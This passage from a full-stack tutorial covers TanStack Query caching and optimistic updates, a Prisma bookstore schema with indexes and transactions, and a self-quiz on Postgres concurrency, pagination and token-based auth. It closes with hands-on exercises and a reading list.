  queryKey: ["products", { category: "books" }],   // identity of this data
  queryFn: () => fetchProducts("books"),           // how to get it
  staleTime: 30_000,                               // fresh for 30s
});
```

- **Query key** — the cache address, an array treated structurally. Every component asking for
  `["products", {category:"books"}]` shares one cache entry and one in-flight request
  (**deduplication**). The key should contain *every variable the fetch depends on* — think of it
  as the dependency array of the fetch.
- **Stale-while-revalidate (SWR)** — the strategy that makes apps feel instant: when data is
  needed and the cache has it, **show the cached copy immediately** (even if stale), and refetch
  in the background, updating on arrival. Users see content in 0ms and it self-corrects. `staleTime`
  = how long data counts as fresh (no background refetch); `gcTime` = how long unused entries stay
  in memory.
- **Automatic refetching** — stale queries refetch on window focus, network reconnect, and mount.
  The user who alt-tabs away for 10 minutes comes back to current data with zero code from you.

### Mutations and invalidation

A **mutation** is a write (POST/PUT/DELETE). After a write, related cached reads are outdated —
you **invalidate** them, which marks them stale and triggers refetches wherever they're on screen:

```tsx
const addProduct = useMutation({
  mutationFn: (p: NewProduct) => api.post("/products", p),
  onSuccess: () => queryClient.invalidateQueries({ queryKey: ["products"] }),
  // invalidates ["products"], ["products", {category:"books"}], … (prefix match)
});
```

This is the fundamental cycle: **read via keys → write via mutation → invalidate keys**. Get this
loop into your hands and 80% of frontend data plumbing disappears.

### Optimistic updates

For interactions that must feel instant (a like button), don't wait for the server — update the
cache *as if the write already succeeded*, and roll back on error:

```tsx
const like = useMutation({
  mutationFn: () => api.post(`/posts/${id}/like`),
  onMutate: async () => {
    await queryClient.cancelQueries({ queryKey: ["post", id] });
    const before = queryClient.getQueryData(["post", id]);          // snapshot
    queryClient.setQueryData(["post", id],
      (p: Post) => ({ ...p, likes: p.likes + 1, likedByMe: true }));  // instant UI
    return { before };
  },
  onError: (_e, _v, ctx) => queryClient.setQueryData(["post", id], ctx.before), // rollback
  onSettled: () => queryClient.invalidateQueries({ queryKey: ["post", id] }),   // truth wins
});
```

The pattern is always the same trio: **snapshot → apply guess → (rollback | reconcile)**.


```exercise
refresh-interceptor
```

## D.3 Virtualized lists (concept)

Rendering 10,000 rows creates 10,000 DOM nodes — scroll jank and memory bloat, though only ~25 fit
on screen. **Virtualization** (react-window, TanStack Virtual) renders *only the visible window*
plus a small buffer, absolutely positioned inside one tall spacer div, swapping content as you
scroll. 10,000-row list, ~30 mounted nodes, 60fps. Use it for any list you can't bound.

---

<a name="worked"></a>
# Part E — One complete schema, end to end

Everything in Part A becomes concrete the moment you see a real schema. Here is a standalone
**online bookstore** modeled in Prisma — relations, indexes, and the migration workflow — using
nothing from the project. Read every line as an application of A.1–A.7.

```prisma
// schema.prisma
generator client { provider = "prisma-client-js" }
datasource db     { provider = "postgresql"; url = env("DATABASE_URL") }

model Author {
  id     String  @id @default(cuid())
  name   String
  books  Book[]                         // one author → many books (the "1" side)
}

model Book {
  id         String   @id @default(cuid())
  title      String
  priceCents Int                        // store money as integer cents — never floats (rounding!)
  published  DateTime
  authorId   String                     // FK column (A.1)
  author     Author   @relation(fields: [authorId], references: [id])
  tags       Tag[]    @relation("BookTags")   // many-to-many (A.1)
  orders     OrderLine[]

  @@index([authorId])                    // FK columns need indexes — joins use them (A.3)
  @@index([published(sort: Desc), id])   // composite for "newest first" cursor pagination (A.5)
}

model Tag {
  id    String @id @default(cuid())
  name  String @unique                   // uniqueness = an implicit index + a constraint
  books Book[] @relation("BookTags")
}

model Order {
  id        String      @id @default(cuid())
  createdAt DateTime    @default(now())
  lines     OrderLine[]
}

model OrderLine {
  id      String @id @default(cuid())
  orderId String
  bookId  String
  qty     Int
  order   Order  @relation(fields: [orderId], references: [id])
  book    Book   @relation(fields: [bookId], references: [id])

  @@unique([orderId, bookId])            // same book twice in one order? forbidden by the DB
}
```

The workflow, command by command:

```bash
# 1. edit schema.prisma (above), then generate + apply a migration:
pnpm prisma migrate dev --name init
#    → Prisma diffs desired-vs-actual, WRITES a .sql file into prisma/migrations/, applies it,
#      and regenerates the typed client. Open that .sql and READ it — it's just CREATE TABLE / INDEX.

# 2. inspect data during development:
pnpm prisma studio          # a browser GUI over your tables
```

Now the queries from Part A, in real Prisma, each annotated:

```ts
// Cursor pagination (A.5): "next 20 books, newest first" — O(log N) regardless of depth
const page = await db.book.findMany({
  take: 20,
  ...(cursor && { skip: 1, cursor: { id: cursor } }),  // continue AFTER the last id seen
  orderBy: [{ published: "desc" }, { id: "desc" }],     // matches the @@index above
  include: { author: true },                            // avoids N+1 (A.6): one query, joined
});

// The N+1 trap (A.6), made real — DON'T do this:
const books = await db.book.findMany({ take: 20 });
for (const b of books) {
  b.author = await db.author.findUnique({ where: { id: b.authorId } }); // 20 extra queries!
}

// A transaction (A.2): create an order and all its lines atomically — all or nothing
await db.$transaction(async (tx) => {
  const order = await tx.order.create({ data: {} });
  await tx.orderLine.createMany({
    data: cart.map((c) => ({ orderId: order.id, bookId: c.bookId, qty: c.qty })),
  });
});   // if the second call throws, the order row is rolled back too
```

**Do this:** run `EXPLAIN ANALYZE` (via `prisma db execute` or `psql`) on the cursor query with the
`@@index([published, id])` present, then drop the index and run it again on a table you've seeded
with 500k books. Watch `Index Scan` become `Seq Scan` and the time explode. That single before/after
is the whole of A.3–A.5 in your own hands.

## Mastery checklist — you're ready to build Phase 1 when you can…

- [ ] Explain PK, FK, and referential integrity, and model a 3-table domain with a many-to-many.
- [ ] Say what ACID guarantees and wrap a multi-step write in a transaction.
- [ ] Name Postgres's default isolation level and one anomaly it permits — and reproduce that
  anomaly in two `psql` windows.
- [ ] Explain the **lost update**, and fix it three ways (`SET bal = bal + n` · `FOR UPDATE` ·
  a version column), saying when each is the right choice.
- [ ] Say why Postgres's Repeatable Read is *stronger* than the SQL standard requires.
- [ ] Explain what a `40001` error means and why `SERIALIZABLE` is unusable without a retry loop.
- [ ] Explain what a connection pool is for and why a long transaction hurts every other request.
- [ ] Choose the right index (B-tree / GIN / partial / composite) for a given `WHERE` + `ORDER BY`,
  and justify it.
- [ ] Read an `EXPLAIN ANALYZE` output and point to the bottleneck (Seq Scan, Rows Removed,
  estimate-vs-actual gap).
- [ ] Write a cursor-paginated query and explain, out loud, why it beats offset on cost *and*
  correctness.
- [ ] Spot an N+1 in code and fix it two ways (`include` / bulk `in`).
- [ ] Explain why passwords are hashed + salted with bcrypt, and why bcrypt is deliberately slow.
- [ ] Draw the access+refresh token flow and explain what rotation detects.
- [ ] Explain XSS vs CSRF and defend "refresh in an httpOnly SameSite cookie, access token in
  memory."
- [ ] Explain the TanStack Query read → mutate → invalidate loop and write an optimistic update.

<a name="quiz"></a>
# Self-quiz — with answers

**1. Walk through "user clicks login" → "tokens in cookies." Every step.**
Form submit → POST `/auth/login` over HTTPS with email+password → validation pipe parses body →
service loads user row by email → `bcrypt.compare(attempt, storedHash)` (slow on purpose) → on
match, sign a short-lived access JWT (sub, roles, exp) and generate a random refresh token → store
`hash(refresh)` in a DB row (user id, expiry, family id) → response carries `Set-Cookie:
refresh=…; HttpOnly; Secure; SameSite` (and the access token in body/memory or its own cookie) →
browser stores cookies; JS keeps access token in memory → subsequent requests attach the access
token; on 401 the interceptor calls `/auth/refresh` (cookie rides along), server hashes, matches,
rotates, reissues.

**2. 1M rows, filter by tag + difficulty + text search — what indexes?**
Tags are a set → **GIN** on the tags column (array or join-table pattern). Difficulty is
low-cardinality → composite B-tree led by it only if always equality-filtered
(`(difficulty, created_at)` for the common list+sort); text search → GIN on a tsvector (full-text)
— plain B-tree can't serve `ILIKE '%word%'`. Then **prove it** with `EXPLAIN ANALYZE` on seeded
data: look for Seq Scans, `Rows Removed by Filter`, estimated-vs-actual row divergence.

**3. Convince a teammate offset pagination is wrong for a large, live list.**
Two arguments: (a) cost — `OFFSET n` produces and discards n rows; deep pages get linearly slower
and burn shared resources; (b) correctness — inserts/deletes between pages shift rows, causing
visible duplicates and silent gaps. Keyset/cursor pagination fixes both: `WHERE (sort_key, id) <
(last_seen)` dives the index in O(log N) and is anchored to a stable position, immune to shifts.
Concede the trade-off: no "jump to page 37" — fine for feeds/infinite scroll.

**4. Why does the domain-layer entity NOT hold a Prisma type?**
Phase 0's dependency rule, now concrete: the domain models a *concept with behavior*; Prisma types
mirror *table rows*. Coupling them welds business logic to the persistence schema — schema changes
ripple into rules, tests need a DB, storage can't be swapped. The repository maps between the two
at the boundary — that mapping code is the pattern working as intended, not boilerplate.

**5. Why hash refresh tokens? Why rotate them?**
Hash: they're long-lived credentials; a DB dump must not yield usable tokens (SHA-256 is fine —
they're high-entropy random strings, unguessable, so slow hashing isn't needed). Rotate: makes each
token single-use, so a *stolen* token's later replay (by victim or thief — whoever is second)
is detectable, triggering family-wide revocation. Rotation converts silent theft into a detected
incident.

---

<a name="exercises"></a>
**Q. Two workers both read a user's rating of 1500, each add points, and both write back. The final
value is wrong. Name the bug and give three fixes.**
*Answer:* A **lost update** — a read-modify-write race, and note it happens at Postgres's *default*
isolation level with no error raised. Fixes: (1) do the arithmetic in SQL —
`UPDATE users SET rating = rating + $delta` — atomic under one row lock, and always preferred;
(2) `SELECT … FOR UPDATE` to lock the row for the read-think-write window, when the new value can't
be expressed as arithmetic; (3) an optimistic `version` column, where a 0-row update tells the loser
to re-read and retry. Pick pessimistic under high contention, optimistic under low.

**Q. Your code raises `could not serialize access due to read/write dependencies`. Is it a bug?**
*Answer:* No — it's `SERIALIZABLE` doing its job. Postgres runs serializable transactions
optimistically and aborts one when the interleaving couldn't have happened in any serial order. The
bug would be *not handling it*: any code at that level needs a retry loop on SQLSTATE `40001`. Same
for `40P01`, deadlock.

**Q. You added `SELECT … FOR UPDATE` and throughput collapsed. Why?**
*Answer:* You serialised access to that row — every other writer now queues behind you for the whole
transaction. Usually the transaction is doing something slow while holding the lock (an HTTP call, an
external API, a long computation). Shorten the transaction to just the read-and-write, move slow work
outside it, or switch to optimistic locking if conflicts are actually rare.

# Exercises — learn by doing

1. **Index lab.** In a scratch database: create `people(id, last_name, first_name, city,
   created_at)`; insert 2M synthetic rows (`generate_series` + `md5(random()::text)`). Run
   `EXPLAIN ANALYZE` on: exact match without index → with B-tree; `city = X AND last_name = Y`
   with composite `(city, last_name)` vs `(last_name, city)` — observe the leftmost-prefix rule
   yourself; a partial index for one hot city. Write down every before/after timing.
2. **Pagination shootout.** Same table: time `OFFSET 0` vs `OFFSET 1_000_000` vs a keyset `WHERE`
   for the same logical page. Then insert rows mid-pagination and demonstrate offset's duplicate
   row appearing; show the cursor version doesn't.
3. **Break a toy auth, then fix it.** Build a 50-line Express/Nest endpoint that stores plaintext
   passwords and a JWT in localStorage on a page with an XSS hole (render a comment as raw HTML).
   Steal your own token with an injected `<script>`. Then fix: bcrypt, httpOnly cookie, sanitize.
   Nothing teaches storage rules like robbing yourself.
4. **Rotation state machine.** On paper, draw every state of a refresh-token family: issued → used
   (rotated) → reused (STOLEN — revoke family) → expired → revoked. Then implement it as pure
   functions over `{status, familyId}` with unit tests. (This is also discriminated-union practice.)
5. **TanStack Query kata.** Against any public API (e.g., PokéAPI): a paginated list (`useQuery`
   with the page in the query key + `placeholderData: keepPreviousData`), a detail view (own key),
   and a fake "favorite" mutation with optimistic update + rollback (point it at httpbin to
   simulate failures). Watch the cache in TanStack Query Devtools the whole time.
6. **Zod at both edges.** One schema in a shared file; use it to validate an Express/Nest body
   *and* a plain HTML form's `FormData` on the client. Change the schema; watch both sides update
   through one type.

# Where each topic came from (the original reading list)

| Topic | Source to go deeper |
|---|---|
| Indexes, EXPLAIN, query plans | *Use the Index, Luke* (free, read all of it); *The Art of PostgreSQL* indexing chapters |
| Storage engines under the hood | *DDIA* ch. 3 (B-trees vs LSM-trees) |
| Cursor pagination | Slack engineering's canonical post |
| Prisma performance, N+1 | Prisma docs, Performance & Optimization |
| JWT storage, XSS argument | rdegges, "Please stop using local storage" |
| Auth in Nest, guards, decorators | NestJS docs: Authentication, Guards, Custom Decorators |
| TanStack Query mental model | TkDodo's blog series "Practical React Query" (the canonical source); Tanner Linsley's "Break up with your server state" talk |
